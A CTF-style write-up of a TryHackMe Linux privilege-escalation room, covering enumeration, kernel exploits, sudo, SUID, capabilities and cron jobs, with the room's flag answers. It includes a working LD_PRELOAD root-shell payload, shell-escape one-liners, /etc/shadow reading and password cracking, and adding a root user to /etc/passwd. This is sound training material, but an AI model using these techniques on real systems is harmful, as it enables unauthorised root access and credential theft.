# [Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)

## What is Privilege Escalation?

At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one. More technically, it's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

Privilege escalation is crucial because it lets you gain system administrator levels of access, which allows you to perform actions such as:

- Resetting passwords 
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command

## Enumeration

Enumeration is the first step you have to take once you gain access to any system. You may have accessed the system by exploiting a critical vulnerability that resulted in root-level access or just found a way to send commands using a low privileged account. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level.

### hostname

The `hostname` command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string (e.g. Ubuntu-3487340239), in some cases, it can provide information about the target system’s role within the corporate network (e.g. SQL-PROD-01 for a production SQL server).

### uname -a

Will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities that could lead to privilege escalation.

### /proc/version

The proc filesystem (procfs) provides information about the target system processes. Looking at `/proc/version` may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

### /etc/issue

This file usually contains some information about the operating system but can easily be customized or changed. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.

### ps

Typing `ps` on your terminal will show processes for the current shell.

The output of the `ps` (Process Status) will show the following;

- PID: The process ID (unique to the process)
- TTY: Terminal type used by the user
- Time: Amount of CPU time used by the process (this is NOT the time this process has been running for)
- CMD: The command or executable running (will NOT display any command line parameter)

The “ps” command provides a few useful options.

- `ps -A`: View all running processes
- `ps axjf`: View process tree (see the tree formation until `ps axjf` is run below)



- `ps aux`: The `aux` option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x).

### env

The `env` command will show environmental variables.

The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

### sudo -l

The target system may be configured to allow users to run some (or all) commands with root privileges. The `sudo -l` command can be used to list all commands your user can run using `sudo`.

### `ls`

remember to always use the `ls` command with the `-la` parameter. 

### `id`

  
The `id` command will provide a general overview of the user’s privilege level and group memberships. The `id` command can also be used to obtain the same information for another user (e.g. `id user2`).

### etc/passwd

Reading the `/etc/passwd` file can be an easy way to discover users on the system.

While the output can be long and a bit intimidating, it can easily be cut and converted to a useful list for brute-force attacks: 

```
cat /etc/passwd | cut -d ":" -f 1
```

Another approach could be to grep for “home” as real users will most likely have their folders under the “home” directory:

```
cat /etc/passwd | grep home
```

### history

Looking at earlier commands with the `history` command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames.

### ifconfig

The target system may be a pivoting point to another network. The `ifconfig` command will give us information about the network interfaces of the system. This can be confirmed using the `ip route` command to see which network routes exist.

### netstat

Following an initial check for existing interfaces and network routes, it is worth looking into existing communications. The `netstat` command can be used with several different options to gather information on existing connections.

- `netstat -a`: shows all listening ports and established connections.
- `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
- `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol
- `netstat -s`: list network usage statistics by protocol.
- `netstat -tp`: list connections with the service name and PID information. This can also be used with the `-l` option to list listening ports.
- `netstat -i`: Shows interface statistics.

The `netstat` usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;

- `-a`: Display all sockets
- `-n`: Do not resolve names
- `-o`: Display timers

### `find` 

**Find files:**

- `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
- `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
- `find / -type d -name config`: find the directory named config under “/”
- `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
- `find / -perm a=x`: find executable files
- `find /home -user frank`: find all files for user “frank” under “/home”
- `find / -mtime 10`: find files that were modified in the last 10 days
- `find / -atime 10`: find files that were accessed in the last 10 days
- `find / -cmin -60`: find files changed within the last hour (60 minutes)
- `find / -amin -60`: find files accesses within the last hour (60 minutes)
- `find / -size 50M`: find files with a 50 MB size

This command can also be used with (+) and (-) signs to specify a file that is larger or smaller than the given size.

The “find” command tends to generate errors which sometimes makes the output hard to read. This is why it would be wise to use the “find” command with “`-type f 2>/dev/null`” to redirect errors to “`/dev/null`” and have a cleaner output

Folders and files that can be written to or executed from:

- `find / -writable -type d 2>/dev/null` : Find world-writeable folders
- `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
- `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders
- `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders

Find development tools and supported languages:

- `find / -name perl*`
- `find / -name python*`
- `find / -name gcc*`

Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it. 

- `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

### Questions

Q: What is the hostname of the target system?



A: `wade7363`

Q: What is the Linux kernel version of the target system?



A: `3.13.0-24-generic`

Q: What Linux is this?



A: `14.04 LTS`

Q: What version of the Python language is installed on the system?



A: `2.7.6`

Q: What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)

A quick google search specifying the version of the kernel should return the CVE in question.

A: `CVE-2015-1328`

## Automated Enumeration Tools

These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories:

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS(opens in new tab)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum(opens in new tab)](https://github.com/rebootuser/LinEnum)[(opens in new tab)](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester(opens in new tab)](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration(opens in new tab)](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

## Privilege Escalation: Kernel Exploits

Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.

Unless a single vulnerability leads to a root shell, the privilege escalation process will rely on misconfigurations and lax permissions.

The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.

The Kernel exploit methodology is simple;

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash.

**Research sources:**  

1. Based on your findings, you can use Google to search for an existing exploit code.
2. Sources such as [https://www.cvedetails.com/(opens in new tab)](https://www.cvedetails.com/) can also be useful.
3. Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

**Hints/Notes:**

1. Being too specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit
2. Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. Of course, these may not be great concerns within a lab or CTF environment, but these are absolute no-nos during a real penetration testing engagement.
3. Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
4. You can transfer the exploit code from your machine to the target system using the `SimpleHTTPServer` Python module and `wget` respectively.

### Questions

Q: find and use the appropriate kernel exploit to gain root privileges on the target system.

We found this exploit on exploit-db:



We download the exploit on our local machine and run an http server using python that we will use to transfer the exploit to the target machine:

```
python3 -m http.server 1337
```

On our target machine, we first `cd` into the `/tmp` directory, as we don't have sufficient permissions to `wget` the exploit.

We then proceed to download the exploit, compile and run it:

```c
gcc 37292.c -o exploit
./exploit
```

We get a root shell. Movint to `/home` directory, we notice a directory of the user `matt`, which contains our flag.





Q: What is the content of the flag1.txt file?

A: `THM-28392872729920`

## Privilege Escalation: Sudo

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the `sudo -l` command.

[https://gtfobins.github.io/(opens in new tab)](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).



Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

On some systems, you may see the LD_PRELOAD environment option.



LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post(opens in new tab)](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.  

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}  
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

### Questions

Q: How many programs can the user "karen" run on the target system with sudo rights?



A: `3`

Q: What is the content of the flag2.txt file?

Since we are allowed to run `find` and `less` with `sudo`, we first search for the file using the former and then open it using the latter:



A: `THM-402028394`

Q: How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

A: `sudo nmap --interactive`

Q: What is the hash of frank's password?

We can use `find` to spawn a root shell:

```bash
sudo find . -exec /bin/sh \; -quit
```

We then can find the hash of frank's password in `/etc/shadow` file:



A: `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1`

## Privilege Escalation: SUID

By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  
  
You will notice these files have an “s” bit set showing their special permission level.  
  
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.



A good practice would be to compare executables on this list with GTFOBins ([https://gtfobins.github.io(opens in new tab)](https://gtfobins.github.io/)). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list [https://gtfobins.github.io/#+suid(opens in new tab)](https://gtfobins.github.io/#+suid)).

The list above shows that nano has the SUID bit set. Unfortunately, GTFObins does not provide us with an easy win. Typical to real-life privilege escalation scenarios, we will need to find intermediate steps that will help us leverage whatever minuscule finding we have.

The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the `/etc/shadow` file or adding our user to `/etc/passwd`.

`nano /etc/shadow` will print the contents of the `/etc/shadow` file. We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the `/etc/shadow` and `/etc/passwd` files.

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.



We will then add this password with a username to the `/etc/passwd` file.



Once our user is added (please note how `root:/bin/bash` was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.

### Questions

We are starting by enumerating the files with the SUID set:



One binary that stands out is `base64`. A quick search on [gtfobins](gtfobins.org) returns that we can only use it to read files:





We use it to get the content of `/etc/shadow`:



We use the same idea to get the output of `/etc/passwd`. Then on our local machine, we create two files where we paste the content of the `/etc/shadow` and `/etc/passwd`, and run the command:

`unshadow passwd.txt shadow.txt > passwords.txt`

We then use `john` to find us the passwords:

```bash
john /usr/share/wordlists/rockyou.txt passwords.txt
```

Finding the `flag3.txt` is as easy as running a `find` command to identify its location and then simply using the `base64` trick we used before to get the contents of the file.



Q: Which user shares the name of a great comic book writer?

A: `gerryconway`

Q: What is the password of user2?

A: `Password1`

Q: What is the content of the flag3.txt file?

A: `THM-3847834`

## Privilege Escalation: Capabilities

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.  
The capabilities man page provides detailed information on its usage and options.  

We can use the `getcap` tool to list enabled capabilities.

When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.

### Questions

Q: How many binaries have set capabilities?



A: `6`

Q: What other binary can be used through its capabilities?

A: `view`

Q: What is the content of the flag4.txt file?

Use `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` to get a root shell.

A: `THM-9349843`

## Privilege Escalation: Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.  
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.  
  
Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.  
  
Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.  
  
Any user can read the file keeping system-wide cron jobs under `/etc/crontab`.

Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:

1. System administrators need to run a script at regular intervals.
2. They create a cron job to do this
3. After a while, the script becomes useless, and they delete it  
4. They do not clean the relevant cron job

This change management issue leads to a potential exploit leveraging cron jobs.

